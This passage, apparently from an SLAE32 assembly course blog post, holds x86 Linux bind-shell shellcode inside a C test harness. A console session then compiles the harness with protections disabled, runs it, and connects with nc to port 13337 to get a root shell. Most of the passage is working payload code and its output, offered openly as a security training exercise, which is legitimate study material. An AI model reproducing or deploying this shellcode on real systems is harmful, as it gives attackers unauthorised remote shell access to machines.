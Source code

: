 ```c
"\xdb\xb3\x02\x31\xd2\x52\x66\x68\x34\x19\x66\x53"
"\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80"
"\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05"
"\x31\xc9\x51\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0"
"\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52"
"\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x89\xd1\xb0\x0b\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

#### Test the shellcode - Port 13337
```console
# WINDOW 1
# Comiple C Program
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
# Run C Program
root# ./shellcode
Shellcode Length:  114

# WINDOW 2
root# netstat -tnalp | grep shellcode
tcp  0.0.0.0:13337   0.0.0.0:*  LISTEN  9627/shellcode
root# nc 127.0.0.1 13337
id
uid=0(root) gid=0(root) groups=0(root)
```
+ Awesome! The wrapper works as intended, allowing easy port configuration!



## SLAE32 Blog Proof
```console
This blog post has been created for completing the requirements
 of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
	- Now at: https://www.pentesteracademy.com/course?id=3
SLAE/Student ID: PA-10913
```
